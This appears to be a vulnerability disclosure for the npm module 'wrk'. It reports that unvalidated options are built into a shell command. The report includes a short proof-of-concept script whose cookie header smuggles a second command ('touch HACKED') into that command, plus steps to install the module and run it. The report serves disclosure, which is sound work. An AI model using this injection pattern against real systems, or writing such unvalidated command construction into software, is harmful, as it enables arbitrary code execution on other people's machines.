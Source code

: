 # :bug: Description

The `wrk` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var wrk = require('wrk');
wrk({ threads: 1, connections: ['s','aaa'], duration: '10s', printLatency: true, headers: { cookie: 'test \'; touch HACKED; #' }, url: 'http://localhost:3000/' }); //Error !! --> any problem
```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i wrk # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
